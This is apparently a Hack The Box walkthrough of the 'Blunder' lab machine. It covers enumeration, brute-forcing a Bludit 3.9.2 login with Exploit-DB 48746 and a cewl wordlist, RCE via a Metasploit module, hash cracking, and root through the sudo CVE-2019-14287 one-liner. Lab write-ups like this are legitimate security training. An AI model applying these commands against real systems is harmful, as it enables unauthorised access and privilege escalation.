






# Walkthrough: 

## Information Gathering 

The target ip resolves to a simple webpage of facts. It's a blog style site. 

It is powered by `Egotisticalsw` but this resolves to a closed X account called `WhortonMr` later found to be the author of the HTB lab.


### Nmap Scans: 

#### All port scan:

```
PORT   STATE  SERVICE
21/tcp closed ftp
80/tcp open   http
```

#### -sC -sV scan: 

```
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Blunder | A blunder of interesting facts
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Blunder
```


### Directory Enumeration

`gobuster dir -u http://10.129.43.16 -w /usr/share/wordlists/dirb/common.txt`

```
.hta                 (Status: 403) [Size: 277]
.htaccess            (Status: 403) [Size: 277]
.htpasswd            (Status: 403) [Size: 277]
0                    (Status: 200) [Size: 7562]
about                (Status: 200) [Size: 3281]
admin                (Status: 301) [Size: 0] [--> http://10.129.43.16/admin/]
cgi-bin/             (Status: 301) [Size: 0] [--> http://10.129.43.16/cgi-bin]
LICENSE              (Status: 200) [Size: 1083]
robots.txt           (Status: 200) [Size: 22]
server-status        (Status: 403) [Size: 277]
Progress: 4613 / 4613 (100.00%)
```


#### /admin page: 



**Remember to run extension scans against targets for low-hanging fruit**

`gobuster dir -u http://10.129.43.16 -w /usr/share/wordlists/dirb/big.txt -x txt`
```
.htaccess.txt        (Status: 403) [Size: 277]
.htaccess            (Status: 403) [Size: 277]
.htpasswd.txt        (Status: 403) [Size: 277]
.htpasswd            (Status: 403) [Size: 277]
0                    (Status: 200) [Size: 7562]
LICENSE              (Status: 200) [Size: 1083]
about                (Status: 200) [Size: 3281]
admin                (Status: 301) [Size: 0] [--> http://10.129.43.16/admin/]
cgi-bin/             (Status: 301) [Size: 0] [--> http://10.129.43.16/cgi-bin]
robots.txt           (Status: 200) [Size: 22]
robots.txt           (Status: 200) [Size: 22]
server-status        (Status: 403) [Size: 277]
todo.txt             (Status: 200) [Size: 118]
usb                  (Status: 200) [Size: 3960]
Progress: 40938 / 40938 (100.00%)
```

##### todo.txt

```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

A potential username has been leaked.

### Bludit CMS

CMS application version - **3.9.2**

Research shows that the version is found in `/bl-content/databases/users.php`

Most of the directories in `/bl-content `aren't found.

Likely version is somewhere around 3.9.2

Confirmed with:

```
curl -s http://TARGET/admin/ | grep -i bludit
[SNIP]
href="http://10.129.43.16/bl-kernel/admin/themes/booty/css/bludit.css?version=3.9.2">
[SNIP]
```


## Vulnerability Assessment 

**CMS Bludit 3.9.2**

https://www.exploit-db.com/exploits/48746 - **Bruteforce Mitigation Bypass**

https://github.com/bludit/bludit/issues/1079 - **RCE**

`todo.txt` disclosed the username `fergus`

`searchsploit -m php/webapps/48746.rb`

Usage: 
`exploit.rb -r <root-url> -u <username> -w <wordlist>`


## Keywords to be added to wordlists: 

BLUDIT
WhortonMr
fergus


## Exploitation

By using the **Bruteforce Mitigation Bypass**, an attacker is able to discover the password for the user `fergus`:

[+] Password found: RolandDeschain

This was accomplished by using the `cewl` tool:

```
cewl http://10.129.43.16 -d 4 -m 4 -w blunder.wordlist
```

And then using the exploit with the wordlist we generated: 

```
./48746.rb -r http://10.129.43.16/admin/login -u fergus -w blunder.wordlist
```

The login attempt is successful and provides access to the Bludit CMS dashboard:



As per the vulnerability assessment earlier, an RCE vulnerability has been found. 

To exploit it manually, follow the guidance here: 
https://user-images.githubusercontent.com/35037256/64002266-3dfd5680-cb3c-11e9-9375-dd3a4f6f202f.png

Otherwise, a Metasploit module can be used to gain a shell:
```
linux/http/bludit_upload_images_exec
```




## Privilege Escalation: www-data

After exploiting the CMS with RCE, initial access to the machine is obtained as user `www-data`.

The `/home` folder of the machine contains 2 users: `shaun` and `hugo` 

The first flag is located in `hugo's` home directory. 

---

A hashed password was potentially found for hugo:



The hash found can be cracked using crackstation.net:

```
Password120
```

Attempting this to switch user to hugo is then successful and the flag can be found:




## Privilege Escalation: Root

`sudo -l`
```
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

This means hugo can run `/bin/bash` as any user **except** root. 

`sudo --version`
```
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
```

This sudo versions is vulnerable to **CVE-2019-14287** and the command below is all that is needed to gain root:

```
sudo -u#-1 /bin/bash
```




